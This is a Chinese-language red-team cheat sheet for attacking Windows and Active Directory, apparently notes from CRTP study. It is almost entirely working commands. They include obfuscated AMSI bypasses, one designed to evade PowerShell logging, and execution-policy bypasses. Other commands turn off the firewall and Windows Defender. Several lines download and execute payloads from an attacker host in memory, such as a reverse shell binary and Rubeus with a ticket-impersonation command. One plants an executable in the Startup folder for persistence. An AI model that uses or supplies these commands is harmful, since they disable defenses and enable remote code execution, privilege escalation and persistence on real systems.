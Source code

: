 # 绕过AMSI 

CRTP绕过示例
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

普通AMSL绕过示例
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

不会被PowerShell autologging检测到的绕过示例
```
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

# 绕过powershell执行策略
```
powershell -ep bypass

powershell –ExecutionPolicy bypass

powershell –c <cmd>

$env:PSExecutionPolicyPreference="bypass"
```


# 关闭防火墙和windows defend
1. 关闭防火墙：
```NetSh Advfirewall set allprofiles state off```

上面命令需要管理员权限，以run as administrator开启一个cmd命令行，然后输入当前域账号登录信息，即可以管理员身份开启cmd，执行上面命令

查看防火墙状态：
```
PS C:\Windows\system32> netsh advfirewall show currentprofile

Domain Profile Settings:
----------------------------------------------------------------------
State                                 OFF
Firewall Policy                       BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Disable
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096

Ok.
```

2. 关闭windows defend

获取windefand状态
```
PS C:\ad> Get-Service WinDefend

Status   Name               DisplayName
------   ----               -----------
Running  WinDefend          Windows Defender Service
```

以管理员身份运行下面powershll命令：
```reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpywar" /d 1 /t REG_DWORD```

需要重启计算机



# powershell脚本加载

Proxy-aware (加载到内存后直接使用，不会下载到本地)
```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.7/PowerView.obs.ps1')
```

Non-proxy aware
```
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText
```

# 下载执行exe程序

需要注意下面所有方法必须先绕过AMSI
```
# Download and run assembly without arguments

$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main()


# Download and run Rubeus, with arguments (make sure to split the args)

$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())


# Execute a specific method from an assembly (e.g. a DLL)

$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

# Powershell下载文件

所有版本的powershell
```
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")
```

4+版本
```
Invoke-WebRequest "http://10.10.16.7/Rev.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Rev.exe"
```